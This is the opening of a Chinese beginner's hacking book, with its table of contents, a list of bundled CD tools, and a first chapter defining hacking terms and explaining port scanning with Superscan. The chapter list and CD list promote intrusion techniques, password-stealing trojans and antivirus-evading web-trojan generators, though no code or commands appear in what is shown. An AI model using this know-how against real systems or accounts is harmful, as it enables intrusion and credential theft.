# 黑客零起步

## 国风黑客系列丛书

《黑客X档案》制作

## 黑客起义

### 精彩内容提要

- **入侵的前奏——基础知识入门**  
  黑客最基本的术语、最常用的扫描工具、最热门的攻击工具
- **刀光剑影——最直接的远程溢出攻击**  
  最经典的远程溢出漏洞的利用、各种上传方法
- **影子般的杀手——特洛伊木马**  
  从热血传奇、魔兽世界、热血江湖到网游盗号木马，又到 Nameless、灰鸽子
- **防不胜防的攻击——脚本入侵初探**  
  各种 ASP 木马的使用、Google 利用技巧、上传漏洞、暴库的应用
- **无敌的入侵利刃——脚本入侵工具大揭秘**  
  菜鸟必备之 HDSI 3.0、明小子旁注入侵工具 3.5、啊D 注入工具 2.3、NBSI 2.5……
- **通向高手的捷径——脚本入侵高级篇**  
  工具+入侵实例=高手的捷径
- **黑客终极较量——网页木马与跨站攻击**  
  网页木马的制作与跨站攻击





定价：19.8元

《黑客X档案》制作

## 黑客零起步

作者：赵强政 韦剑


吉林科学技术出版社

## 《黑客零起步》

- 出版：吉林科学技术出版社
- 出品人：孙胜利
- 主编：杨东柱
- 编辑部主任：龚连成
- 编辑部：sagi 楚汉 Moon sleky 虫虫
- 光盘部：龚连成 丛林
- 美编：Bifrost
- 排版：卜晓沛
- E-mail：hackerxfiles@263.net
- 邮购查询电话：010-88560080
- 联系电话：010-88561165
- 邮编：100037
- 定价：19.8元（图书+光盘）

声明：刊中所载文字及图片，经著作权人授权本刊。版权所有，未经许可，不得转载。文章内容仅代表作者观点，与本刊立场无关。

## 目录

CONTENTS

- **第一章 入侵的前奏——基础知识入门** 7
  - 1.1 黑客常用术语 9
  - 1.2 扫描工具简介 10
    - 1.2.1 超级扫描利器 Superscan 11
    - 1.2.2 综合扫描利器 X-scan 3.3 15
    - 1.2.3 UNIX/Linux 下的王牌 nmap 16
    - 1.2.4 俄罗斯优秀的扫描工具——SSS 20
  - 1.3 最快速的傻瓜入侵工具 21
    - 1.3.1 WinNT/2000 自动攻击探测机 24
    - 1.3.2 南域剑盟上兴常用网络入侵机

- **第二章 刀光剑影——最直接的远程溢出攻击** 29
  - 2.1 经典远程溢出漏洞入侵 29
    - 2.1.1 MS04-011 远程溢出漏洞 32
    - 2.1.2 MS04-045 远程溢出漏洞 34
    - 2.1.3 MS04-007 ASN.1 远程溢出漏洞 35
    - 2.1.4 MS05-039 即插即用漏洞 37
  - 2.2 送给肉鸡的礼物——“上传”全攻略 37
    - 2.2.1 IPC$ 上传 38
    - 2.2.2 FTP 上传 40
    - 2.2.3 TFTP 上传 40
    - 2.2.4 EXE 转 BAT 上传

- **第三章 影子般的杀手——特洛伊木马** 43
  - 3.1 阿胖系列之热血传奇 v0.1 免费版 44
  - 3.2 魔兽世界多国版 46
  - 3.3 热血江湖最新盗号木马 48
  - 3.4 传奇系列木马（冒险岛、梦幻西游……）49
  - 3.5 啊啦 QQ 大盗 51
  - 3.6 传统木马 NameLess 52
  - 3.7 传统木马灰鸽子 56
  - 3.8 一次完整的入侵

- **第四章 防不胜防的攻击——脚本入侵初探** 62
  - 4.1 认识 ASP 网页木马 70
  - 4.2 上传漏洞的利用 70
    - 4.2.1 动网上传漏洞 73
    - 4.2.2 尘缘雅境图文系统低版本上传漏洞 76
    - 4.2.3 动感下载系统低版本上传漏洞 77
    - 4.2.4 动力文章系统上传漏洞 79
    - 4.2.5 其它系统的上传漏洞 79
  - 4.3 Google 与百度搜索引擎使用技巧 81
  - 4.4 暴库漏洞 84
  - 阿剑剑的入侵日记

## 目录

## CONTENTS

- **第五章 无敌的入侵利刃——脚本入侵工具大揭秘** …… 87
  - 5.1 寻找 SQL 注入漏洞 …… 87
  - 5.2 网站注入入侵实例 …… 89
    - 5.2.1 Domain 3.5 …… 89
    - 5.2.2 HDSI 3.0 …… 93
    - 5.2.3 NBSI 2.0 …… 99
  - 5.3 其它 SQL 注入工具大综合 …… 107
    - 5.3.1 绝世猜解——CSC …… 108
    - 5.3.2 命令行下注入——WIS 与 WED …… 110
    - 5.3.3 20NT 浪心作品——冰舞 …… 111
    - 5.3.4 CnSaferSI …… 112

- **第六章 通向高手的捷径——脚本入侵高级篇**
  - 6.1 SA 权限执行命令入侵实例 …… 116
  - 6.2 DB_owner 备份数据库得到 WebShell 实例 …… 123
  - 6.3 JSP 注入实例 …… 125
  - 6.4 PHP 注入也精彩 …… 129
  - 6.5 获取 WebShell 又一法——数据库插马 …… 137
  - 6.6 WebShell 提升权限 …… 139
  - 6.7 脚本入侵之综合运用篇——旁注 …… 148

- **第七章 终极较量——网页木马与跨站攻击**
  - 7.1 制作网页木马 …… 153
    - 7.1.1 MS05-038 漏洞 + 框架挂马 …… 153
    - 7.1.2 冰狐浪子超级网页木马生成器 …… 155
    - 7.1.3 icefox 木马生成器 + JS 挂马 …… 156
    - 7.1.4 下载者 + 最新免杀网页木马生成器 …… 158
  - 7.2 跨站攻击 …… 159
    - 7.2.1 SOHU 也出低级漏洞 …… 159
    - 7.2.2 Discuz! 论坛头像跨站漏洞 …… 161
    - 7.2.3 跨站的其它玩法 …… 162
  - 7.3 整站程序漏洞 …… 162
    - 7.3.1 DVBBS 漏洞回顾 …… 163
    - 7.3.2 BBSXP 漏洞回顾 …… 170
    - 7.3.3 phpwindblog 任意更改密码漏洞 …… 177
    - 7.3.4 风讯系统注入漏洞 + 不常见的 CFS 加密入侵实例 …… 179
- 尾声 …… 184

- **附录一 CMD 简介与常用命令** …… 186
- **附录二 系统服务** …… 189
- **附录三 SQL 基本语法速查** …… 191

### 光盘索引

CDindex

### 兵器推荐

- 最新免杀网马生成器：将生成 afu.htm 和 afu.gif 两个文件，将这两个文件上传到你的网马目录下，即为你的网马地址。
- WinShadow：可以控制远端的 PC、服务器的键盘、鼠标以及屏幕。
- 随意门：采用反向连接，能很好地穿透防火墙。
- 数据库合并成伪 ASP 木马：一个动网空数据库合并成伪 ASP 木马专用工具。
- AspToSystem：老兵写的一个将 Asp.dll 权限提升的工具。
- 加壳工具集合：仙剑+北斗+冰风+铁甲。
- 绝爱内测捆绑机：内测系列的一个捆绑机，功能相对较少，目前还不会被任何杀毒软件查杀。
- Adult PDF Password Recovery：用来破解 Adobe Acrobat PDF 口令保护的工具。
- 编程实现盗 2005 Beta2 版 QQ：源代码。
- 华网解吧：生成服务端前请先用邮件测试，查看您的信箱是否可以收到测试信。
- 爱儿网盗：目前最新的密码截获软件。
- THC-Hydra：用来对需要网络登录的系统进行快速的字典攻击。
- RAR 本地提升权限漏洞利用工具：RARLAB WinRAR 命令行处理溢出漏洞。
- phpBB 2.0.13 漏洞利用工具：phpBB 2.0.13（admin_styles.php）远程命令漏洞利用工具。
- THC-Amap：运行在 Linux/UNIX/Windows 平台上的新一代安全扫描软件。
- QQ 追随者之网吧版：目前是最好的密码以及聊天内容截取软件，专门针对 QQ。
- Kaspersky Anti-Virus：为任何形式的个体和社团提供了一个广泛的抗病毒解决方案。
- OutpostPro：一款短小精悍的网络防火墙软件，它的功能是同类 PC 软件中最强的，甚至包括了广告和图片过滤、内容过滤、DNS 缓存等功能。

### 书籍相关

- ms05038 的工具
- 冰狐浪子超级网页木马生成器
- icefox 木马生成器 + JS 挂马
- IE 网页木马专业版生成器
- HKDown（下载者）
- 免杀网页木马生成器修改版 by 阿福
- ms05052 的工具
- discuz4.0rc3 头像跨站漏洞利用程序
- Winsock 专家
- 动网权限提升（7.0sp2）
- 动网固定贴利用工具
- bbsxp 综合利用工具
- 特南的无端口后门：Randomdoor1.0
- CFS 解密工具
- 海阳木马 eval 版
- JSP 木马 jshell
- php 注入文件读取器

### 学海追潮

密码攻与防：安全真是一个说不完的话题，就我们用户目前所遇到的安全防范措施主要是密码保护，所以今天我们将从攻和防两个方面讲讲密码保护问题。

104 种清除木马方法：很多新手对安全问题了解比较不多，计算机中了特洛伊木马不知道怎么样来清除。虽然现在有很多的清除特洛伊木马的软件，可以自动清除木马，但你不知道木马是怎样在计算机中运行的，如果你看了这篇文章之后，你就会明白一些木马的原理。

- 5 秒破解 MD5 教程
- 做免杀网马从“0”开始

### 自娱自乐

- 无尽的爱
- 心中的日月
- 楼道传说
- 爱情 886
- 功夫小子显身手
- 可怕的高压电
- 追捕 007
- 身手敏捷——索尼克美眉版
- 赵薇《向着你》MV
- KOF11 动画
- 英雄城市动画

## 第一章 入侵的前奏——基础知识入门


## 第一章 入侵的前奏

### ——基础知识入门

话说计算机专业的阿剑剑同学今年刚刚大学毕业，好不容易凭着上学时“混”到的计算机三级网络证书在一家公司应聘到了网管一职。哪知剑剑别提有多高兴了，似乎一转眼自己就成了 IT 精英一样。可没几天，麻烦事就接踵而来了，网站时不时地奇慢如牛，有时还出现无法访问的情况，一访问网站自己的杀毒软件就狂叫个不停，终于有一天，网站的首页上被人挑衅化地改成了“警告管理员，你的网站有漏洞！”的一句话。那天头儿气急败坏地把阿剑剑叫到办公室，一顿说教后，只留下一句话给阿剑剑：“一星期，一星期搞不定你就给我到外面去扫厕所！”

可怜的阿剑剑同学直后悔上学那会儿没有好好学习，没有认真阅读《黑客X档案》。唉，亡羊补牢，犹时未晚。还好阿剑剑有个铁哥们是“黑”道中人，外号称作菜鸟中的——职业欠钱，以前曾是***黑客联盟的核心成员，于是决定请他出山帮忙。

### 1.1 黑客常用术语

“欠钱兄，你可得帮帮我啊！”

“哈哈，听闻你最近找了一份网管的工作，不用说，一定什么也没干就被传说中的小黑们欺负得哇哇直叫，无技可施了吧？”

“真是生我者父母，知我者欠钱也，我也就不跟你废话了，19.8 元算作见面礼，你就收下吧，我只想认真地拜你为师！学习一下传说中的黑客技术！”

“哼，当初我总是给你说要让你了解一下黑客方面的知识，可你总说传说中的黑客离你很远，不会招惹上你的，你看这不后悔了吧？你这是干嘛啊……”欠钱一边收下阿剑剑递过来的钱，一边说道，“哥们儿有难我能不帮吗？既然你肯亲自来向我请教，那么看在好兄弟的份儿上，我自然也是倾囊而授，我们现在就开始吧！”

阿剑剑：“欠钱大虾，我事先声明啊，对于黑客我现在可是什么都不懂，你得从头教我呀！”

“既然如此，那我们就只能从最最简单的黑客术语讲起了！”

- 1. **菜鸟**  
  这是一种形象的比喻，把许多刚刚接触网络安全（黑客）技术的初学者比喻成刚刚破壳而出的小鸟，水平很菜，等待学好知识，好振翅飞翔。许多高手有时也把自己称为菜鸟，谦虚是一种美德嘛！

- 2. **肉鸡**  
  在黑客术语中，肉鸡指的是那些被黑客入侵并控制的网络上的电脑，这些已经被控制的电脑，对于入侵者来说，就像是使用自己的电脑一样，因此被形象地比喻成肉鸡。



- 3. **木马**  
  这起源于希腊的一个神话，一场持续了十年的战争被一个计策结束掉：他们把大量的士兵伪装在一只非常高大的木马里面，留在城外，然后佯装撤退，特洛伊城里的人眼见解围，将木马当作战利品拖进了城内。而深夜，藏在木马里的士兵偷偷地跑了出来，里应外合将刚刚还沉浸在狂欢里的特洛伊占领了。  
  在计算机中，它引用了这个故事的含义，意为一段精心策划的小程序，这个小程序运行后，往往会潜伏在计算机内，在不被管理员发现的情况下，完成自己的工作：记录密码信息、盗取银行卡账号、留下后门使攻击者再次控制计算机……这样的程序就被称为木马。

- 4. **后门**  
  后门也可以算是木马的一种，不过它的目的更侧重于对计算机的控制，使入侵者有机会可以再次连接上肉鸡并控制它，通常后门的功能并不如木马强大。

- 5. **端口**  
  在网络上，知道一台电脑的 IP 地址，只是相当于知道了它的居住地址，要和它进行通信，我们还要知道它开了哪些窗口。比如我们到一所医院，挂号要到 1 号窗口，划价要到 2 号窗口，取药要到 3 号窗口。那么与计算机通信也是一样的，要上 QQ，你得登录到腾讯服务器的 8000 端口；要浏览 X 档案的论坛，你得与其 80 端口进行联系；要 FTP 登录空间、传输文件，我们又得与服务器的 21 端口连接了。可以说，端口就是一种数据的传输通道，用于接收某些数据，然后传送给相应的服务，而电脑将这些数据处理后，再将相应的回复通过端口传给对方。

- 6. **扫描**  
  扫描通常指的是向目标主机提交一些特定的请求，然后根据接收到的回复信息来判断对方是否存在某个安全问题，或是提供了什么服务的一种最常用、最基本的信息刺探方法。

- 7. **权限**  
  计算机用户对于文件及目录的建立、修改、删除以及对于某些服务的访问、程序的执行，是以权限的形式来严格区分的。被赋予了相应的权限，就可以进行相应的操作，否则就不可以。

- 8. **IP 地址**  
  Internet 上的电脑有许多，为了让它们能够相互识别，Internet 上的每一台主机都分配有一个唯一的 32 位地址，该地址称为 IP 地址，也称作网际地址。IP 地址由 4 个数值部分组成，每个数值部分可取值 0－255，各部分之间用一个“.”分开。

- 9. **溢出**  
  程序在处理我们提交给它的数据时，有的时候忘了检查数据的大小与合法性，那么这些数据可能会超过属于自己的地盘，覆盖到其他数据的地盘。如果这些超长数据被精心地策划构造的话，可能会被黑客去执行任意命令。打个比喻来说，Windows 系统是一个人，会一杯一杯地喝我们给它准备的水，其中有一个杯子太小了，我们倒入大量的水它就会溢出到别的杯子里去，而溢出到别的杯子里的东西我们事先可以设计好，而系统并不知道，还以为这本来就是那个杯子里的东西，于是我们可以完成一定的目的。

- 10. **Shell**  
  本来 shell 是使用在 Unix 下的术语，英文原意为壳。在计算机中指人机交互的界面，比如以前的 DOS 时代，我们要在黑糊糊的文字界面中输入命令，计算机执行后再通过黑糊糊的界面返回相关信息。那个黑糊糊的东西就是我们和计算机打交道的地方，就是所谓的 shell。而到了 Windows 时代，我们和计算机打交道的地方（一个又一个的窗口）图形化了，这就是所谓的 GUI（图形界面）的 shell。

- 11. **CMD**  
  全称是命令行提示符，按下“Win+R”组合键后会打开“运行”窗口，在这里输入 CMD，确定就会打开它了。有点像 DOS 吧？不过它和 DOS 不同，如果不熟悉的朋友可以看附录，我会用最通俗的语言对它进行讲解。

- 12. **弱口令**  
  所谓弱口令也就是指密码与用户名相同、密码为空这样的用户名与密码组合，也包括那些密码强度不够、容易被猜解出的组合。

- 13. **进程**  
  进程可以理解成正在运行中的程序。按下“Ctrl+Shift+Esc”三键调出任务管理器后，切换到进程选项中可以轻易地看到当前系统运行的进程。

- 14. **嗅探**  
  计算机网络是共享通信通道的，支持每对通信计算机独占通道的交换机/集线器仍然过于昂贵。共享意味着计算机能够接收到发送给其他计算机的信息，捕获在网络中传输的数据信息就称为嗅探（Sniffer）。

### 1.2 扫描工具简介

> 阿剑剑：“怪不得以前总听你讲‘肉鸡’、‘shell’什么的，现在我总算是明白这些的意思了。不过这些没有什么实际的用处，你还是快点来讲讲黑客是如何入侵的吧！”

欠钱：“急什么急，没听说‘心急吃不了热豆腐吗’，想学黑客技术，就得从基础学起，一步一个脚印才行。俗话说‘知己知彼，百战不殆’。黑客们在入侵一个服务器前要做很多事，不是拿起个工具就开始攻击这么简单的。他首先要确定自己的攻击目标，然后就是使用各种手段、各种工具来尽可能多、尽可能详细地获得要攻击电脑的各种信息，包括使用的操作系统类型、版本、开放的服务及端口，是否存在什么漏洞等等。对于黑客们来说，这些信息是非常重要的。”

阿剑剑：“怎么感觉像是做间谍呀？”

> 欠钱：“别废话，继续听我说。要想获得这些信息，其实是有许多相关命令及方法的。不过，对于像你这类的初学者，最有效的一种方法就是使用扫描工具。这些扫描工具可以帮你完成以上的事情，当然最主要的是找到对方的电脑存在什么安全漏洞，这才是扫描的唯一目的。”

#### 1.2.1 超级扫描利器 Superscan

Superscan 是黑客界中大名鼎鼎的端口扫描工具了，虽然目前的最新版为 4.0，不过，许多黑客高手仍然是使用着 3.0 版本。Superscan 3.0 启动后的界面如图 1.1，在“开始”栏输入要扫描的起始 IP 地址，“停止”栏输入要结束的 IP 地址，点击“开始”按钮就可以扫描了。



图 1.1

我们看一下“扫描类型”选项，如果选择了“只用 Ping 扫描主机”的话，对于许多在防火墙中禁止 ping 的主机将忽略，不过扫描的速度非常快。而“解析主机名”将会在扫描时给出对方的域名。后边的几项为端口选择，我们通常是选择“所有端口从 *-*”，点击“全部展开”按钮就会将扫描到的信息显示出来，包括对方开放的端口及相应的服务，如图 1.2。



图 1.2

## 入侵的前奏

### Easy Hacker

如果我们要扫描的端口为不连续的几个端口，那么可以选择“扫描类型”中的“列表中全部已选择的端口”。不过，在选择之前，我们得先进行“端口设置”。点击“配置”项的“端口设置”按钮，会打开如图1.3所示的窗口。我们双击要检测的端口，前边就会打上勾，表示已经被选中。选择完毕后，我们可以通过上方的“保存”按钮保存到文件里，以后使用的时候直接“载入”该文件，最后“确定”后，就可以在扫描时对选择的这些特定端口进行扫描了。



图1.3

### 1.2.2 综合扫描利器 X-scan3.3

X-scan 是国内黑客中最为推崇的一款综合性的扫描工具，其最新的版本为 3.3。比起老的版本来，它的漏洞库更为丰富，可以检测到的系统漏洞更多。X-scan3.3 启动的界面如图1.4所示。

